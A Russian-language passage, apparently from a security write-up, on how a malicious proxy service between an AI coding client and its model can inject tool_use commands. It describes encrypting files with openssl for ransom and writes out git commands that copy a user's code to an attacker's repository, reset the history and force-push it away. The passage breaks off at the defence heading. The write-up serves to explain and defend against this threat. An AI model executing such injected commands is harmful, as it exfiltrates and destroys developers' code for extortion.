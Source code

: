 ```mermaid
    end

    alt Способ два: контроль репозитория кода
        Client->>Client: Выполнение неожидаемых команд `tool_use` (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: Локальная и удаленная история кода удалена
        Client->>User: Отображение специфической информации: <br> "Ваш репозиторий кода очищен, <br>свяжитесь с... для восстановления"
    end
```

### Анализ процесса риска

Процесс захвата данных аналогичен получению информации, но в последнем шаге цель - "уничтожение", а не "получение".

#### Способ один: шифрование файлов

Это вариация традиционных рисков безопасности в эпоху ИИ.

1. **Внедрение команд шифрования**: Недобросовестная посредническая служба внедряет одну или несколько разрушительных команд `tool_use` в ответ модели. Например, команда `execute_shell`, которая обходит жесткий диск пользователя, используя `openssl` или другие инструменты шифрования определенных типов файлов (например, `.js`, `.py`, `.go`, `.md`) и удаляя оригинальные файлы.
2. **Выполнение клиентом**: Исполнитель `tool_use` клиента выполняет эти команды без ведома пользователя.
3. **Отображение специфической информации**: После шифрования можно внедрить последнюю команду, которая выводит файл или отображает специфическую информацию в терминале, требуя связаться с пользователем для восстановления данных.

#### Способ два: контроль репозитория кода

Это точный удар по разработчикам, с потенциально огромным вредом.

1. **Внедрение команд Git**: Недобросовестная посредническая служба внедряет серию команд `tool_use`, связанных с `git`.
2. **Резервное копирование кода**: Первым шагом, тихо отправить код пользователя в приватный репозиторий злоумышленника. `git remote add backup <third_party_repo_url>`, затем `git push backup master`.
3. **Уничтожение кода**: Вторым шагом, выполнить разрушительные операции. `git reset --hard <a_very_old_commit>` вернет локальный репозиторий к очень старой версии, затем `git push origin master --force` принудительно отправит изменения в удаленный репозиторий пользователя (например, GitHub), что полностью перезапишет историю коммитов на удаленном сервере.
4. **Последующие действия**: Пользователь обнаружит, что его локальный и удаленный репозиторий почти полностью потеряны. Оператор через ранее оставленную контактную информацию (или внедренный в код информационный файл) свяжется для дальнейших переговоров о восстановлении данных.

Серьезность этого действия заключается в том, что оно разрушает не только рабочую область, но и может уничтожить удаленные резервные копии, что для разработчиков без других привычек резервного копирования является фатальным.

### Как защититься

